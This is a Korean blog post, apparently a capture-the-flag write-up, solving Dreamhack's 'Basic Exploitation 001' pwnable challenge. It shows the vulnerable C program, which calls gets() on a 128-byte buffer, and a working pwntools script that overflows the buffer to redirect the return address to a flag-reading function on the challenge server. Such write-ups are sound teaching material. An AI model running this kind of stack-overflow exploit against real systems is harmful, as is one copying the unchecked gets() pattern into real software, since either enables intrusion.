 ```yaml
---
layout: post
title: Dreamhack | Basic Exploitation 001
subtitle: Dreamhack-Pwnable Basic Exploitation 001
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188456086-910f189b-efd0-4046-b9e4-0941f1ea5a71.jpg" width = 500>
</p>

환경 정보를 보면 NX가 활성화되어 있는 것을 알 수 있다. 그렇다는 것을 Shellcode를 대입하더라도 스택 영역에 실행 권한이 없어 Shellcode를 실행하지 못하고 종료하게 된다. 주어진 파일을 확인해보겠습니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

`read_flag()`함수가 flag를 읽어주는 함수로 되어 있다. 하지만 main에는 read_flag()를 실행할 곳이 없다. **get()**함수는 크기 상관없이 읽어드리기에 buf의 크기를 넘겨 RET에 read_flag() 위치를 대입하면 해결될 것으로 보인다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460027-f08259f3-d443-4643-9b86-6fe36fcfda6d.jpg" width = 500>
</p>

`buf[0x80]` 위 빨간 네모칸을 통해서 총 128byte만큼 buf에 할당하고 그 위치를 `gets()`로 입력 받는다.

그리고 `read_flag()`의 함수 호출 위치를 알아낸다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460919-def60535-b780-4692-a0d5-296c241a0439.jpg" width = 380>
</p>

**그렇다면 Buf(128byte) + SFP(4byte) + RET(read_flag()의 4byte)로 flag를 읽어올 수 있다.**

```python
from pwn import *

p = remote('host3.dreamhack.games', 22987)

elf = ELF('./basic_exploitation_001')
read_flag = elf.symbols['read_flag'] # 0x80485b9
payload = b''
#dummy = b'\x90' * 128
SFP = b'S' * 4

payload += payload.ljust(128, b'\x90')
#payload += dummy
payload += SFP
payload += p32(read_flag)

p.sendline(payload)
p.interactive()
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188464458-831d66a4-be19-4cd8-a4a1-8f2819e6ceb6.jpg" width = 380>
</p>

이전 문제보다는 더욱 쉬운 느낌이였다. `read_flag = elf.symbols['read_flag']`처럼 직접 read_flag의 함수 주소를 명시하지 않고 pwntools를 이용해서 가져오는 것도 가능하다.